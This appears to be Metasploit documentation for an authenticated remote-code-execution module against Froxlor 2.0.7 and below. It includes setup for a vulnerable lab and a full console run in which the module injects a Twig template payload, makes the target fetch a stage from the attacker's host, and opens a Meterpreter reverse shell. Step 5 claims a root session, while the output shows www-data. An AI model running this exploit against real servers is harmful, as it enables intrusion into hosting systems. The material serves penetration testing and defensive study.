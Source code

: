 ## Vulnerable Application

Froxlor is an open source web hosting control panel. Froxlor v2.0.7 and below suffers from a bug that allows
authenticated users to change the application logs path to any directory on the OS level which the user www-data can
write without restrictions from the backend which leads to writing a malicious Twig template that the application will
render. That will lead to achieving a remote command execution under the user www-data.

### Setup
Install php 8.1 and MySQL. Download the vulnerable Froxlor application and place it in Ubuntu's default webroot. The
below instruction set should be able to be copy and pasted into a terminal in order to deploy a vulnerable application.
```
sudo add-apt-repository ppa:ondrej/php
sudo apt install php8.1
sudo apt install php8.1-common php8.1-mysql php8.1-xml php8.1-xmlrpc php8.1-curl php8.1-gd php8.1-imagick php8.1-cli php8.1-dev php8.1-imap php8.1-mbstring php8.1-opcache php8.1-soap php8.1-zip php8.1-redis php8.1-intl php8.1-gmp php8.1-bcmath -y
wget https://files.froxlor.org/releases/froxlor-2.0.3.tar.gz
gunzip froxlor-2.0.3.tar.gz
tar -xvf froxlor-2.0.3.tar
sudo rm /var/www/html/index.html
sudo cp -r froxlor /var/www/html/
cd /var/www/html/
sudo chown -R www-data:www-data ./
sudo apt install mysql-server
`sudo systemctl start mysql.service`
sudo mysql
mysql> ALTER USER 'root'@'localhost' IDENTIFIED WITH mysql_native_password BY 'notpassword';
mysql> quit;
sudo systemctl restart apache2
```

After the above completes successfully, navigate to http://localhost/froxlor to finish the web-based portion of the
installation. Accept the EULA and input the database credentials and then start the application.

## Options

### TARGETURI

The base URI path of Froxlor. **Default: /froxlor**

### WEB_ROOT

The webroot of the Froxlor server. The webroot must be known in order to write the absolute path of the logfile. The
default options assumes Froxlor is installed on an Ubuntu machine: **Default: /var/www/html**


## Verification Steps

1. Start msfconsole
1. Do: `use exploit/linux/http/froxlor_log_path_rce`
1. Set the `RHOSTS`, `LHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### Ubuntu 20.04, Froxlor 2.0.3 running on Apache, MySQL and PHP 8.1
```
msf > use exploit/linux/http/froxlor_log_path_rce
[*] Using exploit/linux/http/froxlor_log_path_rce
msf exploit(linux/http/froxlor_log_path_rce) > set rhosts 172.16.199.140
rhosts => 172.16.199.140
msf exploit(linux/http/froxlor_log_path_rce) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf exploit(linux/http/froxlor_log_path_rce) > set lport 9191
lport => 9191
msf exploit(linux/http/froxlor_log_path_rce) > set username admin
username => admin
msf exploit(linux/http/froxlor_log_path_rce) > set password notpassword
password => notpassword
msf exploit(linux/http/froxlor_log_path_rce) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:9191
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Successful login
[+] The target appears to be vulnerable. Vulnerable version found: 2.0.3
[+] Successfully Logged in!
[+] CSRF token is : 5701b7e6335ab13e20e91845b210b6be0bea7621
[+] Changed logfile path to: /var/www/html/froxlor/templates/Froxlor/footer.html.twig
[*] Using URL: http://172.16.199.1:8080/ygs3pAWMRNIs
[+] Injected payload successfully
[*] Changing logfile path back to default value while triggering payload: /var/www/html/froxlor/logs/froxlor.log
[*] Client 172.16.199.140 (Wget/1.20.3 (linux-gnu)) requested /ygs3pAWMRNIs
[*] Sending payload to 172.16.199.140 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045348 bytes) to 172.16.199.140
[*] Cleaning up...
[*] Deleting tampered footer.html.twig file
[*] Rewriting clean footer.html.twig file
[*] Meterpreter session 3 opened (172.16.199.1:9191 -> 172.16.199.140:50398) at 2023-02-13 18:20:02 -0500
[*] Command Stager progress - 100.00% done (117/117 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer     : 172.16.199.140
OS           : Ubuntu 20.04 (Linux 5.15.0-58-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
